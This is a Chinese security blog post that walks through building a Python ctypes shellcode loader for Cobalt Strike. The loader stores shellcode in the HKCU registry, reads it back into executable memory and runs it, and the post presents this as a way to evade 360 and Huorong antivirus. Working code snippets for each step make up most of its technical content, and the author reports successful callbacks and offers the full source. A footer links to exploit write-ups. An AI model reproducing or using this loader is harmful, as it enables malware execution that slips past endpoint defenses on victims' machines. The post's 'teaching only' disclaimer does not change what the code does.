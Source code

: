 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/lTBgA6sHt-YPL5wYZ62XKQ)

![](https://mmbiz.qpic.cn/mmbiz_jpg/zbTIZGJWWSPQdnFLNBOibeibWcF6a35v8gPjAL4EpmW03fg3nVwwzDGvuUvvX8kstOfKfMzmpPrv8hkuf1bbef5g/640?wx_fmt=jpeg)  

一位苦于信息安全的萌新小白帽

本实验仅用于信息防御教学，切勿用于它用途

公众号：XG 小刚

最近毕业了，开始了新的打工生活，知识也被榨干了，更新比较慢

**前言**  

前几天不是发了几个《[UUID、MAC、ipv4](http://mp.weixin.qq.com/s?__biz=MzIwOTMzMzY0Ng==&mid=2247485833&idx=1&sn=82c2f120b6c5058dc9afcc4eeefb89b5&chksm=97743568a003bc7e9e62e90d2353ecb17c2761a492b494417290b85e7fd39a8da3d9c5d6d249&scene=21#wechat_redirect)》等加载器吗，这几个原理都一个样，就是转换内容然后写到内存中去，说白了只要能往内存写东西的函数都能写成加载器

这几天研究 api 操作注册表想绕过 360 等，突然想起注册表是可以存储二进制内容的，然后就发现了 RegQueryValueExA 函数是可以读取 注册表中内容的，所以我们只要将读取的内容存到申请的内存中去执行即可。

本文环境使用 py2.7，通过 ctypes 库调用 RegQueryValueExA 函数实现上线 cs

**注册表**

注册表就不多介绍了，乱七八糟的我也讲不懂，自己百度  

![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSPQdnFLNBOibeibWcF6a35v8g0effAg74GKHA03ThAl9QWZic3LKEibVMUFWPjHw5p0ddXcAcyYWk3Bhg/640?wx_fmt=png)

但主要一点，我们操作注册表是需要权限的，但 HKLM_CURRWNT_USER 表是不需要权限的，所以我们主要操作这个表  

**函数介绍**

在读取注册表内容之前，注册表得有我们的 shellcode 内容啊，命令行操作 reg 又不行，拦的死死地，所以只能用 api 进行写入我们的 shellcode  

RegSetValueExA

该函数在 Advapi32.dll 库中，可以设置注册表项下指定值的数据和类型。

函数原型：

```
https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa
```

```
LSTATUS RegSetValueExA(
  HKEY       hKey,
  LPCSTR     lpValueName,
  DWORD      Reserved,
  DWORD      dwType,
  const BYTE *lpData,
  DWORD      cbData
);
```

hKey 为上面五个表其中一种，这里操作 HKLM_CURRWNT_USER，在 py 里对应值是 - 2147483647  

lpValueName 是在表里新建一个值

dwType 是值的类型，在注册表里不同的值类型储存不同格式的数据，我们需要储存二进制数据，所以值类型为 REG_BINARY，py 里对应数值为 3

lpData 这是我们需要写入的数据，这里写入 shellcode

cbData 是数据的大小，必须将 shellcode 全部写入

```
buf = b"\xfc\x00..."
ctypes.windll.Advapi32.RegSetValueExA(-2147483647, "test", None, 3, buf,len(buf))
```

此时看看注册表里的内容是不是 shellcode  

![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSPQdnFLNBOibeibWcF6a35v8gs79rtb3luibicK2g7vyOdR2FTQP2SBz9Roicj2Fp6TfhHvESMzDzTDNBw/640?wx_fmt=png)

RegQueryValueExA  

该函数在 Advapi32.dll 库中，检索与打开的注册表项关联的指定值名称的类型和数据。

函数原型：

```
https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regqueryvalueexa
```

```
LSTATUS RegQueryValueExA(
  HKEY    hKey,
  LPCSTR  lpValueName,
  LPDWORD lpReserved,
  LPDWORD lpType,
  LPBYTE  lpData,
  LPDWORD lpcbData
);
```

hKey 对应上面注册表的组  

lpValueName 对应上面值的名称

lpType 接收查到的值的类型，可以为 0 表示不需要此内容

lpData 则接收我们查到的值的数据，也就是我们的 shellcode，这里需要 VirtualAlloc 申请一块内存来接收此数据，这里根据需要的指针类型将内存改为 LPBYTE 的指针

```
LPBYTE = POINTER(c_byte)
ctypes.windll.kernel32.VirtualAlloc.restype = LPBYTE
ptr = ctypes.windll.kernel32.VirtualAlloc(0,800,0x3000,0x40)
```

lpcbData 则是 shellcode 的长度，这里长度我们需要先执行一下 RegQueryValueExA 来获取一下 shellcode 长度，然后继续直接 RegQueryValueExA 来去读内容到申请的内存  

```
data_len = DWORD()
ctypes.windll.Advapi32.RegQueryValueExA(-2147483647, "test", 0, 0, 0, byref(data_len))
ctypes.windll.Advapi32.RegQueryValueExA(-2147483647,"test",0,None,ptr,byref(data_len))
```

这时 shellcode 已经写入到内存中去了，继续老一套创建线程运行即可  

当写完内存，以防万一将写入的注册表进行删除

```
ctypes.windll.Advapi32.RegDeleteValueA(-2147483647, "test")
```

测试

环境 py2.7 , 使用 cs 生成 64 位 shellcode

![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSPQdnFLNBOibeibWcF6a35v8gC9PuaOyTdNCoVNyVtAfQEs0doicIC30DaYA5v9z3Y8Esn7FDldFh1FA/640?wx_fmt=png)

这里测试了火绒，360，成功上线  

**源码公众号回复：**_**注册表加载器**_ **获取**

****【往期推荐】****  

[【内网渗透】内网信息收集命令汇总](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485796&idx=1&sn=8e78cb0c7779307b1ae4bd1aac47c1f1&chksm=ea37f63edd407f2838e730cd958be213f995b7020ce1c5f96109216d52fa4c86780f3f34c194&scene=21#wechat_redirect)  

[【内网渗透】域内信息收集命令汇总](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485855&idx=1&sn=3730e1a1e851b299537db7f49050d483&chksm=ea37f6c5dd407fd353d848cbc5da09beee11bc41fb3482cc01d22cbc0bec7032a5e493a6bed7&scene=21#wechat_redirect)

[【超详细 | Python】CS 免杀 - Shellcode Loader 原理 (python)](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247486582&idx=1&sn=572fbe4a921366c009365c4a37f52836&chksm=ea37f32cdd407a3aea2d4c100fdc0a9941b78b3c5d6f46ba6f71e946f2c82b5118bf1829d2dc&scene=21#wechat_redirect)

[【超详细 | Python】CS 免杀 - 分离 + 混淆免杀思路](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247486638&idx=1&sn=99ce07c365acec41b6c8da07692ffca9&chksm=ea37f3f4dd407ae28611d23b31c39ff1c8bc79762bfe2535f12d1b9d7a6991777b178a89b308&scene=21#wechat_redirect)  

[【超详细】CVE-2020-14882 | Weblogic 未授权命令执行漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485550&idx=1&sn=921b100fd0a7cc183e92a5d3dd07185e&chksm=ea37f734dd407e22cfee57538d53a2d3f2ebb00014c8027d0b7b80591bcf30bc5647bfaf42f8&scene=21#wechat_redirect)

[【超详细 | 附 PoC】CVE-2021-2109 | Weblogic Server 远程代码执行漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247486517&idx=1&sn=34d494bd453a9472d2b2ebf42dc7e21b&chksm=ea37f36fdd407a7977b19d7fdd74acd44862517aac91dd51a28b8debe492d54f53b6bee07aa8&scene=21#wechat_redirect)

[【漏洞分析 | 附 EXP】CVE-2021-21985 VMware vCenter Server 远程代码执行漏洞](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247487906&idx=1&sn=e35998115108336f8b7c6679e16d1d0a&chksm=ea37eef8dd4067ee13470391ded0f1c8e269f01bcdee4273e9f57ca8924797447f72eb2656b2&scene=21#wechat_redirect)

[【CNVD-2021-30167 | 附 PoC】用友 NC BeanShell 远程代码执行漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247487897&idx=1&sn=6ab1eb2c83f164ff65084f8ba015ad60&chksm=ea37eec3dd4067d56adcb89a27478f7dbbb83b5077af14e108eca0c82168ae53ce4d1fbffabf&scene=21#wechat_redirect)  

[【奇淫巧技】如何成为一个合格的 “FOFA” 工程师](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485135&idx=1&sn=f872054b31429e244a6e56385698404a&chksm=ea37f995dd40708367700fc53cca4ce8cb490bc1fe23dd1f167d86c0d2014a0c03005af99b89&scene=21#wechat_redirect)
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

[记一次 HW 实战笔记 | 艰难的提权爬坑](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247484991&idx=2&sn=5368b636aed77ce455a1e095c63651e4&chksm=ea37f965dd407073edbf27256c022645fe2c0bf8b57b38a6000e5aeb75733e10815a4028eb03&scene=21#wechat_redirect)

[【超详细】Microsoft Exchange 远程代码执行漏洞复现【CVE-2020-17144】](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485992&idx=1&sn=18741504243d11833aae7791f1acda25&chksm=ea37f572dd407c64894777bdf77e07bdfbb3ada0639ff3a19e9717e70f96b300ab437a8ed254&scene=21#wechat_redirect)

[【超详细】Fastjson1.2.24 反序列化漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247484991&idx=1&sn=1178e571dcb60adb67f00e3837da69a3&chksm=ea37f965dd4070732b9bbfa2fe51a5fe9030e116983a84cd10657aec7a310b01090512439079&scene=21#wechat_redirect)

_**走过路过的大佬们留个关注再走呗**_![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTEATexewVNVf8bbPg7wC3a3KR1oG1rokLzsfV9vUiaQK2nGDIbALKibe5yauhc4oxnzPXRp9cFsAg4Q/640?wx_fmt=png)

**往期文章有彩蛋哦****![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTHtVfEjbedItbDdJTEQ3F7vY8yuszc8WLjN9RmkgOG0Jp7QAfTxBMWU8Xe4Rlu2M7WjY0xea012OQ/640?wx_fmt=png)**  

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTECbvcv6VpkwD7BV8iaiaWcXbahhsa7k8bo1PKkLXXGlsyC6CbAmE3hhSBW5dG65xYuMmR7PQWoLSFA/640?wx_fmt=png)

一如既往的学习，一如既往的整理，一如即往的分享。![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icl7QVywL8iaGT0QBGpOwgD1IwN0z9JicTRvzvnsJicNRr2gRvJib6jKojzC5CJJsFPkEbZQJ999HrH5Gw/640?wx_fmt=png)  

“**如侵权请私聊公众号删文**”

公众号